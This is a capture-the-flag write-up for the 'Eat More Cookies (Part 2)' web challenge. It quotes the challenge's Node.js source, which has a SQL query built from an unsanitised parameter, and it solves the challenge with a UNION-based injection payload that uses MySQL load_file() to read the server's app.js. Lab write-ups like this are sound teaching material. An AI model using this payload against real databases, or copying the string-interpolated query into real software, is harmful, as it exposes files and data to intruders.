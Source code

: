 # Eat More Cookies (Part 2)
> `-`

## About the Challenge
We got a website and also the source code (You can download the source code [here](EatMoreCookiespt2.zip)). Here is the preview of the website

![preview](images/preview.png)

If we check the source code, especially this part:

```js
app.get("/searchcookies", isAuthenticated, async (req, res, next) => {
  cookies = req.query.cookies;

  const query = `SELECT * FROM cookies WHERE flavor = "${cookies}"`;

    pool.query(query, (err, result) => {
      if(err){
        return next(err)
      }

    return res.status(200).render("index", {cookies: result || []})
    });
})
```

The `cookies` parameter is vulnerable to SQL injection, and we can get the flag by accessing `/flag` endpoint

```js
app.get("/flag", isAdmin, (req, res, next) => {

  return res.json({"flag": "WSUCTF{F4ke_Flag}"})
})
```

But we need to login as administrator first:

```js
app.post("/adminLogin", async (req, res, next) => {
  const { username, password } = req.body;
  const query = 'SELECT * FROM users WHERE username = ? LIMIT 1';
    try {
    pool.query(query, [username], async (err, result) => {

      user = result[0];

      console.log(user);

      if(!user){
        return res.json({message: "User not found. Please try again."})
      }

      let comparePassword = await bcrypt.compare(password, user.password);

      if(username == "Administrator" && comparePassword){
        req.session.username = "Admin";
        req.session.isAdmin = true;
    
        return res.json({"message": "Successfully logged in as adminstrator."})
      } else if(comparePassword){
        return res.json({"message": "You are logged in, but you aren't administrator. You could've used the regular login instead!"})
      } else {
        return res.json({"message": "Invalid username or password. Please try again."})
      }
    })
  } catch (err) {
    return next(err)
  }

})
```

## How to Solve?
To solve this chall, im using unintended way. Im using `load_file()` MySQL function to read local file and then read `app.js` file

```
" union select 1,load_file('/app/src/app.js'),3-- -
```

![flag](images/flag.png)

```
WSUCTF{Sess1on_IDs_m4ch_more_v4lner9ble_th9n_I_TH0ught}
```